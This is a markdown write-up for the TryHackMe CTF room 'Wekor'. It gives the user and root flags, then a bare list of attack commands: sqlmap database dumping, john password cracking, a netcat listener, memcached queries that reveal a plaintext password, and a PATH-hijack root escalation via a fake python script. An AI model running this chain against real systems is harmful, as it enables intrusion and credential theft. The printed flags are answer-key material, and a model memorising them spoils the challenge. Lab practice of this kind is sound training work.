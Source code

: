 # <div align="center">[Wekor](https://tryhackme.com/r/room/wekorra)</div>
<div align="center">CTF challenge involving Sqli , WordPress , vhost enumeration and recognizing internal services ;)</div>

<div align="center">
<img src="https://github.com/user-attachments/assets/7e5e0c2c-05fe-4829-9c54-41146e8b1ce9" height="200"></img>
</div>

# Task 1. Introduction
# Task 2. Finishing Up
Time To Submit The Flags :)
### What is the user flag?
```
1a26a6d51c0172400add0e297608dec6
```
### What is the root flag?
```
f4e788f87cc3afaecbaf0f0fe9ae6ad7
```


## Here 
```
echo "<IP> wekor.thm" | sudo tee -a /etc/hosts
for i in `curl -s http://wekor.thm/robots.txt | grep Disallow | cut -d " " -f2`;do echo $i;curl -I http://wekor.thm$i;echo "---";done
curl -s http://wekor.thm/comingreallysoon/
sqlmap -r it_cart_coupon.xml --dump-all --threads=10
ll
tree wordpress
cat wp_users.csv
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
echo "<IP> site.wekor.thm" | sudo tee -a /etc/hosts
admin: Administrator
wp_eagle: Subscriber
wp_jeffrey: Subscriber
wp_yura: Administrator

nc -nlvp 4444
echo "stats items" | nc -vn -w 1 127.0.0.1 11211
echo "stats cachedump 1 0" | nc -vn -w 1 127.0.0.1 11211
echo "get username" | nc -vn -w 1 127.0.0.1 11211
echo "get password" | nc -vn -w 1 127.0.0.1 11211
Orka:OrkAiSC00L24/7$
su Orka
Password: OrkAiSC00L24/7$
cat /home/Orka/user.txt
```
### Priv Esc
```
sudo -l
./bitcoin
echo $PATH
ls -la /usr/sbin/ | head
cat > /usr/sbin/python << EOF
#!/bin/bash
/bin/bash
EOF

chmod +x /usr/sbin/python
sudo /home/Orka/Desktop/bitcoin
20
cat /root/root.txt
```


